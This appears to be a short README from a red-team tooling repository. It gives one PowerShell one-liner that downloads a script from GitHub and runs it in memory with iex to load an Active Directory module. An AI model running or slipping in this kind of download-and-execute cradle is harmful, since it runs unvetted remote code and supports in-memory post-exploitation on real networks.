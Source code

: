 # RedTeamStuffs
A collection of Red Team tools and stuff that have come in handy

# Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
